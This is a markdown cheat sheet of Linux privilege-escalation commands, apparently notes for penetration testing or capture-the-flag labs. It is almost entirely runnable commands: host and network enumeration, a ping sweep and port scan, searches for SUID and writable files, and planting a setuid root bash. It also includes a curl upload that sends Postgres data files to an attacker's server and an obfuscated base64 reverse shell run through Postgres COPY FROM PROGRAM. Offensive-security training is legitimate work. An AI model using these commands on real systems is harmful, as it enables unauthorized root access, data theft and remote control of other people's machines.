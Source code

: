 ```yaml
---
description: >-
  The root account on Linux systems provides full administrative level access to
  the operating system. Fully compromising the host would allow us to capture
  traffic and access sensitive files
---
```


# Linux Privilege Escalation

### Enumeration

```bash
# Check enviroment
env

# List processes
ps aux | grep root
ps au

# Check history
History

# Sudo 
sudo -l

# Cron Jobs
ls -la /etc/cron.daily/

# Check OS
cat /etc/os-release
cat /etc/lsb-release
uname -a

# Network
route
arp -a
ss -ltnp
netstat -ano

# Ping sweep
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;

# Port scan
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null 
```

#### Files & Directories

```bash
# Find writeable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

# Find writeable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Find hidden files
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep username

# Find hidden directories
find / -type d -name ".*" -ls 2>/dev/null

# Find user
find / -user username 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Find group
find / -group staff -writable 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Find files on extensions
find . -name '*.java'

# Webroots
ls /var/www/html
ls /var/www/html/sitename
```

#### Special permissions

```bash
# Find SUID 
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Find SGID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Change owner
chown root:root bash 

# Read, write, and execute permissions to everyone
chmod 4777 bash
```

<details>

<summary>Various</summary>

```bash
# Check for append-only attribute 
lsattr script.sh
-----a--------e--- script.sh
```

</details>

#### Upload a file from host

```bash
# Install
sudo python3 -m pip install --user uploadserver

# Create certs
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Directories
mkdir https && cd https

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://10.10.14.2/upload -F 'files=@/var/lib/postgresql/' --insecure
```

#### Postgres command execution

```bash
# Create table
CREATE TABLE my_table (
    id SERIAL PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    position VARCHAR(50),
    salary NUMERIC(10, 2)
);

# Reverse shell
COPY my_table FROM PROGRAM 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzg4ODggMD4mMQ==" | base64 -d | bash';
```

#### For credential hunting

{% content-ref url="credential-hunting.md" %}
[credential-hunting.md](credential-hunting.md)
{% endcontent-ref %}
